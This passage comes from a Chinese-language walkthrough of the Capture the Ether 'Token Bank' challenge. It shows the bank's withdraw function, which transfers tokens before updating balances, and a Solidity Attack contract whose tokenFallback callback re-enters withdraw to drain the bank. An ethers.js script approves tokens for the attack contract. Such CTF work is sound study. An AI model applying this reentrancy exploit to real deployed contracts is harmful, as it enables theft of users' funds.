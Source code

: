 ```solidity

        balanceOf[from] += value;
    }
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);

        require(token.transfer(msg.sender, amount));
        balanceOf[msg.sender] -= amount;
    }
}
contract Attack {
    address a = 0x681BE0B67e6917e84BbCFe925c551ca94d06bEb6;
    address b = 0x435c6119690afddb64b11f6d749b410257142e60;
    TokenBankChallenge target1;
    SimpleERC223Token target2;
    uint256 check;
    function Attack() payable{
        target1= TokenBankChallenge(a);
        target2= SimpleERC223Token(b);
    }

    function action1() public {
        target2.transferFrom(msg.sender ,address(this),500000000000000000000000);
    }
    function action2() public {

        target2.transfer(a,500000000000000000000000);
    }
    function tokenFallback() public {
        check=check+1;
        if(check <= 2){
        target1.withdraw(500000 * 10**18);
        }
    }

    function () public payable {

    }
}
```

~~然后, 部署完成之后, 从 Metamask 里面 把我们钱包的 500,000 SET Token 转到部署好的 Attack 合约中~~

注意, 这里不能用 Transfer 转账, 因为 Transfer 的 To 是一个合约地址, 会激发我们 Attack 合约中的 `tokenFallback` 函数

所以需要我们将 SET 授权给 Attack, 授权代码

```javascript
async function main(){
  const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
  const wallet = new ethers.Wallet(process.env.PK, provider)
  let iface = new ethers.utils.Interface(["function approve(address spender, uint256 value)"])
  const tx = {
    to: "0x435c6119690afddb64b11f6d749b410257142e60",
    data: iface.encodeFunctionData("approve", ["0x1F0Fc75CaD196B0cA1dBe90E5f849153b98E99AF",ethers.utils.parseEther("500000")]),
  }
  const hash = await wallet.sendTransaction(tx)
  await hash.wait()
  console.log("Send Tx",hash.hash)
}
```
